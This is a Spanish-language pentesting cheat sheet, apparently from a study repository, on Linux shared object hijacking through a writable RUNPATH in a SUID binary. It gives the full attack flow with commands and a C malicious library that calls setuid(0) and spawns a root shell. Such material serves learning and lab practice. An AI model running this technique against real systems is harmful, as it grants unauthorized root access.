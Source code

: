 ## 🛠️ **Shared Object Hijacking**

### 🔴 **¿Qué es?**

**Shared Object Hijacking** es una técnica de escalada de privilegios que explota binarios dinámicos mal configurados que cargan librerías compartidas (`.so`) desde rutas inseguras o controladas por el atacante.

Si un binario busca una librería específica en una ruta **writable** (como `/tmp` o `/development`), un atacante puede colocar una versión maliciosa de la `.so` con **el mismo nombre** y exportar las funciones que el binario espera, ejecutando código arbitrario.

### 🧩 **Condiciones necesarias**

1. **Binario dinámico** que cargue `.so`.
2. Uso de **RUNPATH** o **RPATH** hacia un directorio **writable** por usuarios no privilegiados.
3. Binario vulnerable que:
    - **Es SUID root** o se ejecuta con permisos elevados.
    - **Carga la `.so` automáticamente** como dependencia.

### ⚙️ **Flujo de ataque**

1. **Detectar librerías cargadas**:
	```bash
	ldd ./payroll
```
- Busca `.so` en rutas personalizadas como `/development/libshared.so`.

2. Verificar RUNPATH
```bash
readelf -d ./payroll | grep RUNPATH

```
- Confirmas que `/development` es parte del `RUNPATH`.

3. **Renombrar o eliminar la `.so` original**:
```bash
mv /development/libshared.so /development/libshared.so.bak
```
4. **Ejecutar el binario y capturar el símbolo faltante**:`./payroll`
Aparecerá un error como:

```javascript
undefined symbol: dbquery
```
5. **Crear librería maliciosa con la función requerida**:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
}

```
6. **Compilar y colocar la `.so` maliciosa**:
```bash
gcc src.c -fPIC -shared -o /development/libshared.so

```

7. **Ejecutar el binario y obtener root**:

```bash
./payroll

```
